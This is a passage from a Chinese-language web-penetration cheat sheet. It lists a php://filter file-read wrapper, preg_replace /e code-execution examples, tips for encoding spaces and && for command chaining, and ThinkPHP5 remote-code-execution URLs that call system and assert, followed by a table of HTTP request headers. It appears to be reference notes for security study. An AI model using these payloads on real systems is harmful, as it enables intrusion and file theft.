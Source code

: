 ```
echo "Returned with status $retval and output:\n";
print_r($output);
?>
```

#### data://filter

```
php://filter/read=convert.base64-encode/resource=[文件路径]
```

### 函数漏洞

#### preg_replace

preg_replace漏洞触发有两个前提：

01：第一个参数需要e标识符，有了它可以执行第二个参数的命令

02：第一个参数需要在第三个参数中的中有匹配，不然echo会返回第三个参数而不执行命令，举个例子：

```
//echo preg_replace('/test/e', 'phpinfo()', 'just test');
//这样是可以执行命令的

//echo preg_replace('/test/e', 'phpinfo()', 'just tesxt'); 
//echo preg_replace('/tesxt/e', 'phpinfo()', 'just test'); 
//这两种没有匹配上，所以返回值是第三个参数，不能执行命令
```

不能使用空格隔开，可用%20或者+代替，%26%26为&&，&&意思是当前面命令执行成功时，继续执行后面的命令。

### php-rce（thinkphp5 ）

远程代码执行漏洞

```url
http://127.0.0.1/public/index.php?s=index/\think\Request/input&data=phpinfo()&filter=assert
```

```url
//执行php命令
index.php?s=index/think\App/invokeFunction&function=call_user_func_array&vars[0]=var_dump&vars[1][]=111
//执行系统命令
index.php?s=index/think\App/invokeFunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls
```



## HTTP Header

### request

| Header              | 解释                                                         | 示例                                                    |
| :------------------ | :----------------------------------------------------------- | :------------------------------------------------------ |
| Accept              | 指定客户端能够接收的内容类型                                 | Accept: text/plain, text/html                           |
| Accept-Charset      | 浏览器可以接受的字符编码集。                                 | Accept-Charset: iso-8859-5                              |
| Accept-Encoding     | 指定浏览器可以支持的web服务器返回内容压缩编码类型。          | Accept-Encoding: compress, gzip                         |
| Accept-Language     | 浏览器可接受的语言                                           | Accept-Language: en,zh                                  |
| Accept-Ranges       | 可以请求网页实体的一个或者多个子范围字段                     | Accept-Ranges: bytes                                    |
| Authorization       | HTTP授权的授权证书                                           | Authorization: Basic QWxhZGRpbjpvcGVuIHNlc2FtZQ==       |
| Cache-Control       | 指定请求和响应遵循的缓存机制                                 | Cache-Control: no-cache                                 |